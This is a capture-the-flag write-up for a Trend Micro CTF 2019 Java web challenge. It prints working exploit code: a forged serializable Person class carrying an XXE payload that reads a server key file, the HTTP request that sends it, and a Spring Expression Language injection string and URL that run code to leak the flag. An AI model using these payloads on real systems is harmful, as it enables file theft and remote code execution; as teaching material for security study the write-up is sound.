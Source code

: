 # Exploit 300 (pwn, 300p, ? solved)

In the challenge we get address of a Java webapplication and [war file](blueprint.war).
The challenge is a bit similar to the one in previous yeat, however this time the attack vector is not unsafe Java deserialization.

Once we decompile the code in IntelliJ we notice that there are 2 endpoints available.
One endpoint is `/jail` and another is `/office`.

Office endpoint performs some kind of authentication and then uses some of our input inside a piece of Spring Expression Language snippet.
This is very dangerous, since it often leads to RCE, but here we first need to authenticate, and this requires us to know the contents of `/TMCTF2019/key` file.

In order to get it, we need the other endpoint - `/jail`.
This endpoint is much simpler, it does only:

```java
ServletInputStream is = request.getInputStream();
CustomOIS ois = new CustomOIS(is);
Person person = (Person)ois.readObject();
ois.close();
response.getWriter().append("Sorry " + person.name + ". I cannot let you have the Flag!.");
```

Where `CustomOIS` allows only to deserialize objects of type `com.trendmicro.Person`.
If we look closely  how those objects are deserialized, we can see:


```java
int paramInt = aInputStream.readInt();
byte[] arrayOfByte = new byte[paramInt];
aInputStream.read(arrayOfByte);
ByteArrayInputStream localByteArrayInputStream = new ByteArrayInputStream(arrayOfByte);
DocumentBuilderFactory localDocumentBuilderFactory = DocumentBuilderFactory.newInstance();
localDocumentBuilderFactory.setNamespaceAware(true);
DocumentBuilder localDocumentBuilder = localDocumentBuilderFactory.newDocumentBuilder();
Document localDocument = localDocumentBuilder.parse(localByteArrayInputStream);
NodeList nodeList = localDocument.getElementsByTagName("tag");
Node node = nodeList.item(0);
this.name = node.getTextContent();
```

It reads the size of the array, and then bytes array, which is later treated as XML document and parsed.
In this XML the deserializer takes first `tag` node and collects text content of this node to use as `name` of the Person.
So xml structure like:

```xml
<tag>person name</tag>
```

There are 2 important things to understand here:

1. Java recognizes classes for deserialization based on their package+class name and some random `serialVersionID`. The latter is important to make sure we don't accidentally deserialize object with the same class name, or for example `old version` of some object. But since we have the original `Person` class and `serialVersionID` is set there, we can make our own class with the same value, and fool the server to deserialize such object for us.
2. Input we provide will be parsed as XML, which means there might be a possibility to use for example XXE attack.

This is exactly what we do here, we created our own `Person` class:

```java
public class Person implements Serializable {
    private static final long serialVersionUID = -559038737L;
    public String name;

    private void writeObject(java.io.ObjectOutputStream out) throws IOException {
        String payload = "<?xml version=\"1.0\"?><!DOCTYPE tag [<!ENTITY test SYSTEM 'file:///TMCTF2019/key'>]><tag>&test;</tag>";
        out.writeInt(payload.length());
        out.write(payload.getBytes());
    }
}
```

This class will get serialized the same way as Person class in the challenge expects for later deserialization.
Now we can launch it:

```java
public static void stage1() throws IOException {
    Person p = new Person();
    ByteArrayOutputStream out = new ByteArrayOutputStream();
    ObjectOutputStream oos = new ObjectOutputStream(out);
    oos.writeObject(p);
    String host = "http://flagmarshal.xyz/jail";
    ByteArrayOutputStream bos = new ByteArrayOutputStream();
    try {
        RestTemplate restTemplate = new RestTemplate();
        byte[] yourBytes = out.toByteArray();
        HttpEntity<byte[]> entity = new HttpEntity<>(yourBytes);
        ResponseEntity<String> response = restTemplate.postForEntity(host, entity, String.class);
        System.out.println(response);
        System.out.println(response.getStatusCode());
        System.out.println(response.getBody());
    } catch (HttpServerErrorException ex) {
        System.out.println(ex.getResponseBodyAsString());
    } finally {
        try {
            bos.close();
        } catch (IOException ex) {
        }
    }
}
```

And from this we get the key: `Fo0lMe0nce5hameOnUFoo1MeUCantGetF0oledAgain`

Now we can proceed to the second stage.
The code we're attacking is:

```java
String nametag = request.getParameter("nametag");
String keyParam = request.getParameter("key");
String keyFileLocation = "/TMCTF2019/key";
String key = readFile(keyFileLocation, StandardCharsets.UTF_8);
if (key.contentEquals(keyParam)) {
    ExpressionParser parser = new SpelExpressionParser();
    String expString = "'" + nametag + "' == 'Marshal'";
    Expression exp = parser.parseExpression(expString);
    Boolean isMarshal = (Boolean)exp.getValue();
    if (isMarshal) {
        response.getWriter().append("Welcome Marsal");
    } else {
        response.getWriter().append("I am sorry but you cannot see the Marshal");
    }
} else {
    response.getWriter().append("Did you forget your keys Marshal?");
}
```

We need to:

- Send request with key=`Fo0lMe0nce5hameOnUFoo1MeUCantGetF0oledAgain`
- Provide parameter `nametag` which will be placed into expression escaped by `'`.

We can easily put `'` inside `nametag` to escape the string, and evaluate any code we want.
We still need to keep the type proper, so we decided to pass:

`'.isEmpty() && T(com.trendmicro.jail.Flag).getFlag() && '`

So in the application it will become:

`''.isEmpty() && T(com.trendmicro.jail.Flag).getFlag() && '' == 'Marshal'`

It's a proper boolean expression and it will dump the flag for us, because the `getFlag` thrown an exception.
We need to encode `&` as `%26` in order to be able to pass it into the url, and if we go to: `http://flagmarshal.xyz/Office?nametag='.isEmpty()%26%26T(com.trendmicro.jail.Flag).getFlag()%26%26'&&key=Fo0lMe0nce5hameOnUFoo1MeUCantGetF0oledAgain`

We can see the flag in the stacktrace: `java.lang.Exception: TMCTF{F0OlLM3TwIcE1Th@Tz!N1C3}`
